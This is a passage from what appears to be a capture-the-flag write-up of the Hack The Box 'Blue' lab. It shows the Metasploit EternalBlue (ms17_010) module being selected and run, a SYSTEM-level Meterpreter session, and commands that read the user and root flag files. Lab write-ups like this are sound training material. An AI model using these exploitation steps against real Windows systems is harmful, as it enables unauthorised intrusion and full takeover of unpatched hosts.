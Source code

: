 ```bash
use exploit/windows/smb/ms17_010_eternalblue
```


![[payload.png]]

---
### 3.3 Executing the Exploit

Run the exploit:

```bash
exploit
```

![[exploit.png]]

The exploit succeeds, and we obtain a **Meterpreter** session as `NT AUTHORITY\SYSTEM`.

---
## 4. Post-Exploitation

### 4.1 User Flag

Navigate to the user's Desktop and retrieve the flag:

```bash
cd C:\Users\haris\Desktop
cat user.txt
```

![[GitHub Documentation/EASY/HTB_Blue_Writeup/screenshots/user_flag.png]]

✅ **User flag obtained**

---
### 4.2 Root Flag

As we already have SYSTEM privileges, retrieve the root flag:

```bash
cd C:\Users\Administrator\Desktop
cat root.txt
```

![[GitHub Documentation/EASY/HTB_Blue_Writeup/screenshots/root_flag.png]]

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path
